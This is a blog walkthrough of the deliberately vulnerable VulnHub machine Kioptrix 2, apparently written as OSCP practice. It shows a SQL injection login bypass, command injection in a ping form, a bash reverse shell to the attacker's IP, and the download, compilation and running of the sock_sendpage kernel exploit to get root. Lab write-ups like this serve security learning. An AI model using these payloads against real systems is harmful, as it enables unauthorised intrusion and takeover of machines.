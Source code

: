 ```yaml
---
layout: post
title: "Kioptrix 2"
date: 2020-09-18 14:23:00 -0600
categories: VulnHub OSCP
tags: VulnHub
---
```


Same as Kioptrix 1, this is an entry level box from VulnHub, you can download it from [here](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/#download).

## Enumeration

Again we follow the same pattern as the Kioptrix 1 and run AutoRecon against the box once it is booted up and on the network. AutoRecon showed similar results to the first Kioptrix machine, going through the Nikto scans I didn't really see anything of interest. The website on port 80 happened to be hosting a login screen though I decided to manually take a poke.

## SQL Injection

Most login pages are backed by a database of some type so I decided to try poking at some SQL Injection. Turns out the login page was susceptible to a SQLI and I was able to gain access to the protected pages with a simple `' or 1=1#'

![sqli.png](/assets/images/af04e7308718422b9a38da019a8a5b65.png)

## Internal Enumeration

Once we got to the internal page there was a form there to "ping a machine on the network", entering the loopback we get output that looks exactly like the ping terminal utility. This means they are probably calling shell commands directly from the web interface and we can try to get command injection.

![ping.png](/assets/images/0ad2948625e5434188cef9ef36b593c3.png)

We can try testing command injection with either a ';' or '&&'. The ';' means to perform an additional command after the first command and '&&' means to perform an additional command if the first one succeeds. So let's trying running a simple command after the ping command.

![whoami.png](/assets/images/d3086b5184a94a34b30f0e7a91767b71.png)

We can see from the screenshot that the whoami command ran after the ping command and we are running as the apache user. Let's use our ability to chain commands to get a shell on the machine. We can use the following bash command to get a shell back '127.0.0.1; bash -i >& /dev/tcp/192.168.1.209/1122 0>&1', but first we need to open a listener on our Kali machine with 'nc -nvlp 1122'. Once we have our listener and we inject our command from above and send it, it will look like the command hung but if we check our nc command we will see that we have a terminal.

![hostname.png](/assets/images/f1780a654f4c467f81614e99224de429.png)

## Host Enumeration

Doing some quick enumeration on the host, we can see what our current kernel and distro are by running 'uname -r' and 'cat /etc/\*-release'.

![version.png](/assets/images/5864eca3d42943a6a859756ac8710a03.png)

From this we can see that we are running kernel 2.6.9-55.EL on CentOS 4.5, we can feed this information into SearchSploit and see if we can find anything. I usually grep for Priv in my SearchSploit searches to narrow it down even more, if we search for 'Linux Kernel CentOS' we get the following results back.

![searchsploit.png](/assets/images/eb260591535045d6893385b7b3544733.png)

We can see that this machine appears to be vulnerable to the sock_sendpage() exploit which is fairly common to see on older machines. This exploit is provided to us as raw C code so we will need to compile it before we can use it. First we transfer it to our working directory with 'searchsploit -m 9545', this will copy the code for that exploit to our current working directory. Once we have it there we can start a python HTTP server to get the file onto our target machine, we can do that with 'python -m SimpleHTTPServer 8080'.

Once the python server is running we can download it onto our target with 'wget http://192.168.1.209:8080/9545.c'. This will download the exploit code through our Python web server. Then we can compile it with 'gcc -o exploit 9545.c'. This will give us our compiled code that we can add the execute attribute to with 'chmod +x exploit' and run with ''./exploit'.

![root.png](/assets/images/c636303ec26f417e8a5f90f434246f4a.png)

Quite a bit to take in in that screenshot but we can see us switching to the /tmp directory so we are somewhere writable, downloading our exploit code, compiling it and running it. Running the exploit in this case is a success and we can see that we are now the root user.
